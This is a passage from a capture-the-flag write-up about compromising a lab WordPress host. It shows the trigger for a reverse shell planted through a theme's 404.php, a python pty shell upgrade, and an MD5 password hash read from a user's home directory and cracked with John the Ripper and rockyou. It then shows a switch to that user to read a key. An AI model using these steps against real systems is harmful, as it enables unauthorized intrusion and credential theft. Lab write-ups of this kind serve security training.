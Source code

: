 Execute the payload by visiting the following path in your browser  
http://10.10.88.34/wordpress/wp-content/themes/twentyfifteen/404.php

Once the payload is executed, you’ll successfully get a **reverse shell connection**
![Shell](shell.png){: width="800" height="150" .shadow }

🐍 Stable Shell via Python 
```console
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl +z
stty raw -echo;fg
Press Enter
```
We can simply check the /home directory and see that there are two `users direcroty` present
![Demon](demon.png){: width="800" height="150" .shadow }

If we navigate to the robot user’s directory and run the `ls` command, we can see the key file. However, we don’t have permission to read it.
```console
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

However,we do have permission to read the file named `password.raw-md5`
```console
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

We use `John the Ripper` to crack the password. First, we save the hash into a file named `hash.txt` and also tell the format(md5). Then, using `John the Ripper` along with the popular `rockyou.txt wordlist`, we attempt to crack the password
```console
$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=9
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (?)     
```
Now that we have the password for the `robot user`, we can switch to that account and read the `second key`
```console
robot@linux:~$ ls
key-2-of-3.txt  password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c7[REDACTED]93bede3eb39f959
```
